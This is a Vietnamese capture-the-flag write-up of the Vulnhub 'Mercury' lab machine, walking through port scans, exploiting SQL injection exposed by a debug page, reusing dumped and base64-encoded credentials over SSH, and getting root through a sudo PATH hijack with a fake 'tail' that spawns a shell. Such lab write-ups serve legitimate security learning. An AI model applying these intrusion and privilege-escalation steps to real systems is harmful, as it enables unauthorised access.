



Đây là một machine trên Vulnhub, theo dạng boot2root, khá hay và dễ tiếp cận đối với người mới. Chúng ta sẽ cần phải lấy được 2 flag trong machine này, là user.txt khi lấy được shell đầu tiên, và root.txt khi đã leo quyền thành công. Okay, xem có gì ở đây nào.
Get User Flag
Nmap
Go! Xem cái của nợ này đang có địa chỉ IP là gì.
1 2 3 4 5 6 7 8 9 10 11 12 13 14
$ nmap 10.10.10.0/24 Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 21:16 +07 Nmap scan report for 10.10.10.1 Host is up (0.00022s latency). All 1000 scanned ports on 10.10.10.1 are closed
Nmap scan report for 10.10.10.10 Host is up (0.00026s latency). Not shown: 998 closed ports PORT STATE SERVICE 22/tcp open ssh 8080/tcp open http-proxy
Nmap done: 256 IP addresses (2 hosts up) scanned in 2.85 seconds
Tóm được machine đang có IP là 10.10.10.10, IP đẹp phết đấy ml =)) Tạm thời thấy 2 cổng đang được mở là 22-SSH và 8080-HTTP. Để chắc chắn hơn thì cứ quét lại với tham số -p- để kiểm tra tất cả các cổng.
1 2 3 4 5 6 7 8 9 10
$ nmap -p- 10.10.10.10 Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 21:20 +07 Nmap scan report for 10.10.10.10 Host is up (0.00012s latency). Not shown: 65533 closed ports PORT STATE SERVICE 22/tcp open ssh 8080/tcp open http-proxy
Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
Chả có vẹo gì thay đổi, vẫn chỉ có 2 cổng này. Tốt thôi, giờ thì xem kỹ hơn 2 cổng này chạy dịch vụ gì, phiên bản bao nhiêu, vân vân mây mây… để đi tìm hướng tấn công.
$ nmap -p 22,8080 -sV -sC 10.10.10.10 Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 21:20 +07 Nmap scan report for 10.10.10.10 Host is up (0.00061s latency).
PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA) | 256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA) |_ 256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519) 8080/tcp open http-proxy WSGIServer/0.2 CPython/3.8.2 | fingerprint-strings: | FourOhFourRequest: | HTTP/1.1 404 Not Found | Date: Sat, 26 Dec 2020 14:20:56 GMT | Server: WSGIServer/0.2 CPython/3.8.2 | Content-Type: text/html | X-Frame-Options: DENY | Content-Length: 2366 | X-Content-Type-Options: nosniff | Referrer-Policy: same-origin | <!DOCTYPE html> | <html lang="en"> | <head> | <meta http-equiv="content-type" content="text/html; charset=utf-8"> | <title>Page not found at /nice ports,/Trinity.txt.bak</title> | <meta name="robots" content="NONE,NOARCHIVE"> | <style type="text/css"> | html * { padding:0; margin:0; } | body * { padding:10px 20px; } | body * * { padding:0; } | body { font:small sans-serif; background:#eee; color:#000; } | body>div { border-bottom:1px solid #ddd; } | font-weight:normal; margin-bottom:.4em; } | span { font-size:60%; color:#666; font-weight:normal; } | table { border:none; border-collapse: collapse; width:100%; } | vertical-align: | GetRequest, HTTPOptions: | HTTP/1.1 200 OK | Date: Sat, 26 Dec 2020 14:20:56 GMT | Server: WSGIServer/0.2 CPython/3.8.2 | Content-Type: text/html; charset=utf-8 | X-Frame-Options: DENY | Content-Length: 69 | X-Content-Type-Options: nosniff | Referrer-Policy: same-origin | Hello. This site is currently in development please check back later. | RTSPRequest: | <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" | "http://www.w3.org/TR/html4/strict.dtd"> | <html> | <head> | <meta http-equiv="Content-Type" content="text/html;charset=utf-8"> | <title>Error response</title> | </head> | <body> | <h1>Error response</h1> | <p>Error code: 400</p> | <p>Message: Bad request version ('RTSP/1.0').</p> | <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p> | </body> |_ </html> | http-robots.txt: 1 disallowed entry |_/ |_http-server-header: WSGIServer/0.2 CPython/3.8.2 |_http-title: Site doesn't have a title (text/html; charset=utf-8). Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 93.24 seconds
Nhận được về một đống lằng tằng nhằng, và biết thêm được cổng dịch vụ 22-SSH đang chạy là OpenSSH 8.2p1, cổng 8080 đang chạy web server WSGIServer/0.2 CPython/3.8.2. Truy cập vào http://10.10.10.10:8080 để xem mặt mũi cái web server của nó ra sao, nhưng đéo có gì ngoài dòng chữ Hello. This site is currently in development please check back later. Chả mới lạ cho lắm, mở xem mã nguồn trang (Ctrl U) cũng không nốt. Giờ thì phải tiếp tục công việc thu thập thông tin bằng cách liệt kê các thư mục/tập tin ẩn trên web server, quét với các công cụ khác để kiếm lỗi CVE,… Công cụ tiếp theo, nikto được triệu hồi.
Nikto
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17
$ nikto -h http://10.10.10.10:8080 - Nikto v2.1.6 --------------------------------------------------------------------------- + Target IP: 10.10.10.10 + Target Hostname: 10.10.10.10 + Target Port: 8080 + Start Time: 2020-12-26 21:59:58 (GMT7) --------------------------------------------------------------------------- + Server: WSGIServer/0.2 CPython/3.8.2 + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS + No CGI Directories found (use '-C all' to force check all possible dirs) + OSVDB-17113: /SilverStream: SilverStream allows directory listing + Server banner has changed from 'WSGIServer/0.2 CPython/3.8.2' to 'WSGIServer/0.2 Python/3.8.2' which may suggest a WAF, load balancer or proxy is in place + 7852 requests: 0 error(s) and 2 item(s) reported on remote host + End Time: 2020-12-26 22:00:59 (GMT7) (61 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
Khấm khá hơn đấy, tìm thấy thư mục SilverStream, đếch cần biết nó nghĩa là gì, truy cập vào xem sao đã.

Ờ hớ, thư mục không tồn tại, trả về lỗi 404, nhưng chế độ debug của web được bật nên chúng ta có thể thấy được một thư mục có tên là /mercuryfacts/. Mặt mũi của nó như thế này.

Và khi nhấn vào để xem Mercury Fact thì nhận được vỏn vẹn dòng Fact id: 1. ((‘Mercury does not have any moons or rings.’,),). Ngắm nghía cái xem nào, cái này lấy fact theo id (url: http://10.10.10.10:8080/mercuryfacts/1/), vậy thì kiểm tra sql injection xem sao.

Á đù, vẫn là chế độ debug, và nó đem lại quá nhiều thông tin ngon bổ rẻ ở đây, chúng ta biết được url này có lỗi sql injection, biết được câu truy vấn, hệ quản trị là mysql, và cả lú thông tin cấu hình web server bên dưới nữa. Ok, ném cái url này vào sqlmap và lấy toàn bộ cơ sở dữ liệu ra xem.
Toẹt vời, mật khẩu lưu trong database nhưng không được mã hóa. Đoán là mấy cái tài khoản này được dùng để đăng nhập vào SSH, chứ cái web tò te này thì làm éo có trang login nào. Zô! (Sau vài lần login sai, cuối cùng thì chỉ có mỗi cái tài khoản webmaster là dùng được thôi, còn lại là trap hết)
Flag đầu tiên, [user_flag_8339915c9a454657bd60ee58776f4ccd].
Get Root Flag
Tiếp theo, tiết mục leo thang đặc quyền (Privileges Escalation). Lần mò vào cái thư mục mercury_proj, đây là thư mục chứa script python để chạy web server, và có 1 file notes.txt.
1 2 3 4 5 6 7 8 9 10 11 12 13 14
webmaster@mercury:~/mercury_proj$ ls -al total 28 drwxrwxr-x 5 webmaster webmaster 4096 Aug 28 12:56 . drwx------ 4 webmaster webmaster 4096 Sep 2 13:04 .. -rw-r--r-- 1 webmaster webmaster 0 Aug 27 13:56 db.sqlite3 -rwxr-xr-x 1 webmaster webmaster 668 Aug 27 14:06 manage.py drwxrwxr-x 6 webmaster webmaster 4096 Sep 1 10:34 mercury_facts drwxrwxr-x 4 webmaster webmaster 4096 Aug 28 12:47 mercury_index drwxrwxr-x 3 webmaster webmaster 4096 Aug 28 10:36 mercury_proj -rw------- 1 webmaster webmaster 196 Aug 28 12:56 notes.txt webmaster@mercury:~/mercury_proj$ cat notes.txt Project accounts (both restricted): webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
Mã hóa đỉnh cao đấy, dùng hẳn base64, nhưng may là tôi có tài crack thiên bẩm nên chỉ mất 1 giây là có thể lấy được mật khẩu bản rõ.
Tóm được thêm một chú nữa, linuxmaster/mercurymeandiameteris4880km, SSH sang cái tài khoản này xem nào.
1 2 3 4 5 6 7 8 9 10 11 12 13
linuxmaster@mercury:~$ sudo -l [sudo] password for linuxmaster: Sorry, try again. [sudo] password for linuxmaster: Matching Defaults entries for linuxmaster on mercury: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User linuxmaster may run the following commands on mercury: (root : root) SETENV: /usr/bin/check_syslog.sh linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh #!/bin/bash tail -n 10 /var/log/syslog
PATH variables
User linuxmaster có thể chạy /usr/bin/check_syslog.sh với sudo, với quyền root. Nội dung bash script dùng tail để kiểm tra log hệ thống, có thể nghĩ sang cách theo thang đặc quyền sử dụng PATH variables. Theo hướng này, đầu tiên là tạo một file có tên là tail, nội dung là /bin/bash, mục đích là khi chạy lệnh sudo /usr/bin/check_syslog.sh với PATH trỏ đến đường dẫn chứa file tail, hệ thống sẽ gọi tail từ PATH mà chúng ta cung cấp, khi đó file tail sẽ được thực thi với quyền root và khởi động shell, vậy là chúng ta sẽ có root shell.
Congratulations on completing Mercury!!! If you have any feedback please contact me at SirFlash@protonmail.com [root_flag_69426d9fda579afbffd9c2d47ca31d90]
Tèn ten! Kinh nghiệm bản thân mình rút ra được từ bài này, đó là đừng tìn vào Response status, như ở trên, khi mình dùng dirsearch, nó chả tìm được thư mục nào cả, lí do là vì nó kiểm tra Response status và mặc định sẽ bỏ qua những file/folder 404 (Not found). Vậy nên, hãy cứ nhập linh tinh vào cái url xem nó trả về cho mình cái gì, kể cả lỗi cũng được, nhỡ đâu lại vớ được debug thì sao =))